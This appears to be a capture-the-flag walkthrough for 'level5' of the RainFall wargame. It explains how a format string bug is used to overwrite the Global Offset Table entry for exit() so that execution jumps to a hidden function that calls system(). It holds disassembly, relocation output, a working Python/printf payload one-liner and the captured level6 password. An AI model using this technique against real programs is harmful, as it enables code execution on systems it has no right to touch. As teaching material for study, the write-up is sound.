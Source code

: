 ## level5
In `level5` we will be __Overwriting the Global Offset Table__. <br> Within this executable we have three functions `main(), n()` and `o()` that's is never called and
not visible to us until we use:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
[...]
```
One important thing to note here is that the function `n()` will not return like all the functions so far has done, at the end of the function, instead of using
a `ret` the function will call <br> `0x080484ff <+61>:	call   0x80483d0 <exit@plt>` <br> and that `exit()` call will make our `format string exploit` a little
bit different, and for that we will be checking the `GOT`. <br>
Since a program could use a function in a shared library many times, it's useful to have a table to reference all the functions. Another special section in compiled
programs is used for this purpose - the *procedure linkage table* (PLT).<br> This section consists of many jump instructions, each one corresponding to the address
of a function. It works like a springboard - time a shared function needs to be called, controll will pass through the PLT.
```
~$ objdump -d -j .plt ./level5

./level5:     file format elf32-i386


Disassembly of section .plt:

08048370 <printf@plt-0x10>:
 8048370:	ff 35 1c 98 04 08    	pushl  0x804981c
 8048376:	ff 25 20 98 04 08    	jmp    *0x8049820
 804837c:	00 00                	add    %al,(%eax)
	...

08048380 <printf@plt>:
 8048380:	ff 25 24 98 04 08    	jmp    *0x8049824
 8048386:	68 00 00 00 00       	push   $0x0
 804838b:	e9 e0 ff ff ff       	jmp    8048370 <_init+0x3c>

08048390 <_exit@plt>:
 8048390:	ff 25 28 98 04 08    	jmp    *0x8049828
 8048396:	68 08 00 00 00       	push   $0x8
 804839b:	e9 d0 ff ff ff       	jmp    8048370 <_init+0x3c>

080483a0 <fgets@plt>:
 80483a0:	ff 25 2c 98 04 08    	jmp    *0x804982c
 80483a6:	68 10 00 00 00       	push   $0x10
 80483ab:	e9 c0 ff ff ff       	jmp    8048370 <_init+0x3c>

080483b0 <system@plt>:
 80483b0:	ff 25 30 98 04 08    	jmp    *0x8049830
 80483b6:	68 18 00 00 00       	push   $0x18
 80483bb:	e9 b0 ff ff ff       	jmp    8048370 <_init+0x3c>

080483c0 <__gmon_start__@plt>:
 80483c0:	ff 25 34 98 04 08    	jmp    *0x8049834
 80483c6:	68 20 00 00 00       	push   $0x20
 80483cb:	e9 a0 ff ff ff       	jmp    8048370 <_init+0x3c>

080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
 80483d6:	68 28 00 00 00       	push   $0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>

080483e0 <__libc_start_main@plt>:
 80483e0:	ff 25 3c 98 04 08    	jmp    *0x804983c
 80483e6:	68 30 00 00 00       	push   $0x30
 80483eb:	e9 80 ff ff ff       	jmp    8048370 <_init+0x3c>
```
One of these jump instructions is associated with the `exit()` function, which is called at the end of the `n()` function to exit the prgram. If the `jmp` 
instruction used for the `exit()` function can be manipulated to direct the execution flow int `o()` function we can get it to execute the `system()` function.
The problem here is that the *procedure linking table* is read only:
```diff
level5@RainFall:~$ objdump -h level5 | grep -A1 "\ .plt\ "
 11 .plt         00000080  08048370  08048370  00000370  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
```
But closer examination of the `jmp` instructions reveals that they aren't jumping to __addresses__ but to pointers to addresses. For example the `exit()` function is stored as a pointer at the memory __address__ `0x8049838`. <br> These __addresses__ exist in another section, called the __*global offset table (GOT)*__ which is writable. These __addresses__ can be directly obtained by displaying the dynamic relocation entries for the binary bu using `objdump`
```
~$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
|address | fucntion|
|--------|---------|
|0x08049838|`exit()`|
|0x080484a4| `o()`|

If we pay attention above we can see that only the two right most bytes are differents, so what we need to do is change those two bytes. <br>
From the `printf()` main page we know that: *An optional length modifier, that specifies the size of the argument.* Here we will be using `%h` that represents a *short* or a *half-word*

if we convert those two bytes from hex to decimal with the help of [hex-to-int](https://www.rapidtables.com/convert/number/hex-to-decimal.html) we get `0x84a4 = 33956`.<br> So lets get the **offset** as before
```
~$ echo "AAAA %x %x %x %x %x" | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
```
So here we see can our __offset__ is again at position 4th and with the `%h` for the *short* it will be `%4\$hn` so far we have all we need to create our *format string exploit:* <br>
`(python -c "print('\x38\x98\x04\x08' + '%33952d%4\$hn')"; cat) | ./level5` <br>
Now all we need to do is get the token:
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
